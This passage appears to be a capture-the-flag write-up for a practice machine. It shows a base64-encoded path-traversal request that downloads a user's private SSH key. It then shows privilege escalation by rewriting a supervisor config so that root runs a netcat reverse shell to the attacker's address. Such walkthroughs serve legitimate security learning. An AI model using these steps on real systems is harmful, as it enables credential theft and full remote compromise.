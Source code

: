 In the first session there is a bunch of files in the following format: `https://10.10.10.131/file/U0VBU09OLTEvMDEuYXZp` . It it encode as base64:

```console
$ echo "U0VBU09OLTEvMDEuYXZp" | base64 -d
SEASON-1/01.avi
```

We can try a LFI encoding the path.

```console
$ echo -n '../.ssh/id_rsa' | base64
Li4vLnNzaC9pZF9yc2E=
```

Accessing the URL `https://10.10.10.131/file/Li4vLnNzaC9pZF9yc2E=` will download **id_rsa**. Testing each user, **professor** will grant us the shell:

```console
$ ssh professor@10.10.10.131 -i id_rsa

 _             ____                  ____         ____                  _ 
| |    __ _   / ___|__ _ ___  __ _  |  _ \  ___  |  _ \ __ _ _ __   ___| |
| |   / _` | | |   / _` / __|/ _` | | | | |/ _ \ | |_) / _` | '_ \ / _ \ |
| |__| (_| | | |__| (_| \__ \ (_| | | |_| |  __/ |  __/ (_| | |_) |  __/ |
|_____\__,_|  \____\__,_|___/\__,_| |____/ \___| |_|   \__,_| .__/ \___|_|
                                                            |_|       

lacasadepapel [~]$
```

## Privilege Escalation

A weird file can be found there:

```console
lacasadepapel [~]$ cat memcached.ini 
[program:memcached]
command = sudo -u nobody /usr/bin/node /home/professor/memcached.js
```

As this folder is in the home user, we can move it and create other:

```console
lacasadepapel [~]$ mv memcached.ini memcached.ini.save
lacasadepapel [~]$ printf '[program:memcached]\ncommand = sudo -u root /usr/bin/nc 10.10.14.7 60002 -e /bin/sh\n' > /home/professor/memcached.ini
```

Now wait for the reverse shell to start as root.
